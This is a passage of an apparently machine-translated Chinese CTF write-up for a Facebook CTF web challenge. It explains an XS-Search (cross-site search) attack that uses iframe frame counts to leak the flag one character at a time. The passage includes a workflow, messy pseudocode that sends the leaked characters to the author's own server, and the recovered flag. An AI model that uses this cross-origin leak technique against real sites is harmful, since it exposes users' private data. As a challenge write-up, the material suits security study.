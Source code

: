 *我开始知道 **XS 搜索**是一个关于网络开发的最近的研究课题。这些攻击的主要目的是通过利用用户从服务中泄露信息。就像旁道攻击。这些攻击被执行`Cross-Origin`*

*稍微搜索了一下，我知道我们不能像 **LiveOverflow** 在他的视频中那样使用确切的方式，因为他使用 **CHROME_XSS_AUDITOR** 错误消息来构建他的漏洞，我们不能使用，因为它运行的 **Chrome 74** 过滤了那个消息。但是，建立一个条件是相当容易的。*

*我们从最初的侦察中知道，如果我们执行一个返回 1 个结果的搜索，那么 1 个`iframe`将与注释一起被创建，如果搜索没有返回结果，那么没有`iframes`被创建。现在，我们可以用**frames . length***(****ref:***[*htmliframeelement . content window*](https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/contentWindow)*API)**

## *获取标志的基本工作流程:*

1.  *在端口 80 上启动一个服务器，端口转发，这样它就可以到达。*
2.  *编写一个 python 脚本来解决 pow(工作证明),并使用我们服务于该漏洞的服务器的 URL 向*的**错误报告**提交请求。**
3.  **写主要的 exploit 三明治。**

## **我们利用的伪代码**

```
**chars = ‘All printable character list’;
target = “[http://challenges.fbctf.com:8082/search?query=](http://challenges.fbctf.com:8082/search?query=)"
attr = document.createElement(‘iframe’);function exploit() {
for char in chars:
 iframe src => “[http://challenges.fbctf.com:8082/search?query=](http://challenges.fbctf.com:8082/search?query=)" + “fb{“
 console.log(“leaked data = “ + “fb{“ + char);
 attr.onload = () => {
 if (attr.contentWindow.frames.length != 0) {
     ping.own.server.with.data(“fb{“ += char, “POST”, “no-cors”) 
 }
}exploit()**
```

****就这样。****

```
****flag : fb{cr055_s173_l34|<5_4r4_c00ool!!}****
```

# **web :: rceservice**

**![](img/053c0ec644be25d072dbf9312d8144ca.png)**
